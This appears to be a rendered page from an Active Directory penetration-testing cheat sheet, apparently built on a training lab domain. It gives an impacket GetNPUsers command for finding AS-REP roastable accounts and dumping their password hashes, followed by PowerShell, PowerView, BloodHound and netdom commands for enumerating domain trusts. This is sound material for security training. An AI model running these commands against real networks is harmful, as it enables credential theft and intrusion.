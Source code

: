 how to find #asrep roastable & dump hashes
```bash
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users | grep '\$'
```


### #trust exploiting domain trust relationships

---

**1. Enumerate Trusts with PowerShell**

- **Get all domain trusts**:
    
    ```powershell
    Get-ADTrust -Filter *
    ```
    
- **Enumerate trusts using PowerView**:
    
    ```powershell
    Get-DomainTrust
    ```
    
- **Show domain users from a trusted domain**:
    
    ```powershell
    Get-DomainUser -Domain TARGET.DOMAIN.LOCAL | select SamAccountName
    ```
    

---

#### **2. BloodHound - Visualize Domain Trusts**

- **Mapping domain trusts with BloodHound**:
    
    ```powershell
    Get-DomainTrustMapping
    ```
    

---

#### **3. Find Domain Controllers (DCs) with Netdom**

- **Query domain controllers**:
    
    ```powershell
    netdom query /domain:DOMAIN.LOCAL dc
    ```
    

---

#### **4. Domain Trust Analysis (Netdom)**

- **Query domain trust relationships**:
    
    ```powershell
    netdom query /domain:DOMAIN.LOCAL trust
    ```
    